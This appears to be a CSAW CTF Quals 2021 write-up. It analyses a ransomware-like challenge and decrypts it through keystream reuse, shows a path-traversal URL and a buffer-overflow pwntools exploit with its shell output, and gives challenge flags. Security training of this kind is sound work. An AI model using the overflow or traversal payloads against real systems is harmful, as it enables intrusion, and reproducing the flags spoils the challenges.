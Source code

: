 # CSAW CTF Quals 2021 Writeup

I really love ransomwaRE challenge, because it was very good practice for my static analysis (and some dynamic analysis) against windows malware. Thanks to everyone belongs to CPAW CTF organizer for hosting this amazing CTF competition.

## rev

### ransomwaRE

This challenge is focusing about ransomware-like program that encrypts PDF file(s) under `%USERPROFILE%\SecretCSAWDocuments` folder using AES128 algorithm (with CTR mode). Distributed executable is just a downloader (and doing some plus alpha stuffs), the essential part of program can be downloaded from [http://rev.chal.csaw.io:8129/5692481aecd40429eecf588d28ce6a31](http://rev.chal.csaw.io:8129/5692481aecd40429eecf588d28ce6a31). Program has a structure that keeps key, nonce, EVP_CIPHER object, and user id (which will be written on `%USERPROFILE%\AppData\Local\Temp`, and displayed when encryption is done), so I have named this `Config` structure. `Config` will be initialized inside `Gin` function, by storing random bytes to each member variables inside. Key, nonce, user id will be hexlified and sent to remote server (well, server only returns 404 so this part seems to be meaningless).

Because its using same keystream for all files, we can attack this cipher by known-plaintext keystream-reuse attack. I am not well-known about crypto stuffs, so please [check this page](https://ctftime.org/writeup/26871) that I have learned about it. This is the solver, which will output `flag.pdf` with the flag.

Solver:

```python
import os
import binascii
from Crypto.Cipher import AES
from Crypto.Util import Counter
from Crypto.Util import strxor

# us-aers-ransomware.pdf
sample_plain = open('us-aers-ransomware.pdf.backup', 'rb').read()
sample_cipher = open('us-aers-ransomware.pdf.cryptastic', 'rb').read()

# flag.pdf
flag_cipher = open('flag.pdf.cryptastic', 'rb').read()
keystream = strxor.strxor(sample_cipher, sample_plain)[:len(flag_cipher)]
flag_plain = open('flag.pdf', 'wb').write(strxor.strxor(flag_cipher, keystream))
```

`flag{w4y_t0_put_th3_RE_1n_W1nd0w5_r4n50mw4RE}`

## misc

### Welcome

C&P from Discord.

Flag: `flag{W3Lcom3_7o_CS4w_D1ScoRD}`

## warm-up

### poem-collection

Easy Web Chall. ([Answer](http://web.chal.csaw.io:5003/poems/?poem=../flag.txt))

Flag: `flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}`

### Turing

Flag: `flag{scruffy_looking_nerf_herder}`

### Password Checker

Very simple and easy pwn challenge. Just be careful about stack alignment.

Solver:

```python
from pwn import *
from struct import pack

# conn = process('./password_checker')
conn = remote('pwn.chal.csaw.io', 5000)
payload  = b'A' * 72 # 72
payload += pack('<I', 0x401173)
conn.recvuntil(b"Enter the password to get in: \n>")
conn.sendline(payload)
conn.interactive()
```

Output:

```
$ python3 test.py
[+] Opening connection to pwn.chal.csaw.io on port 5000: Done
[*] Switching to interactive mode
This is not the password$ ls
flag.txt
password_checker
$ cat flag.txt
flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}
```

`flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`

### checker

Reversing Python Script.

Solver:

```python
def up(x):
    x = [f"{ord(x[i]) << 1:08b}" for i in range(len(x))]
    return ''.join(x)

def up_rev(d):
    x = []
    for i in range(0, len(d), 8):
        x.append(chr(int('0b'+d[i:i+8],2) >> 1))
    return ''.join(x)

def down(x):
    x = ''.join(['1' if x[i] == '0' else '0' for i in range(len(x))])
    return x

def right(x,d):
    x = x[d:] + x[0:d]
    return x

def right_rev(x,d):
    x = x[-1*d:] + x[:-1*d]
    return x

def left(x,d):
    x = right(x,len(x)-d)
    return x[::-1]

def left_rev(x,d):
    x = x[::-1]
    return right_rev(x,len(x)-d)

def encode(plain):
    d = 24
    x = up(plain)
    x = right(x,d)
    x = down(x)
    x = left(x,d)
    return x

def decode(encoded):
    d = 24
    x = left_rev(encoded, d)
    x = down(x)
    x = right_rev(x, d)
    plain = up_rev(x)
    return plain

def main():
    encoded = "1010000011111000101010101000001010100100110110001111111010001000100000101000111011000100101111011001100011011000101011001100100010011001110110001001000010001100101111001110010011001100"
    print(decode(encoded))

if __name__ == "__main__":
  main()
```

Output:

```
> python .\checker.py
flag{r3vers!nG_w@rm_Up}
```

`flag{r3vers!nG_w@rm_Up}`
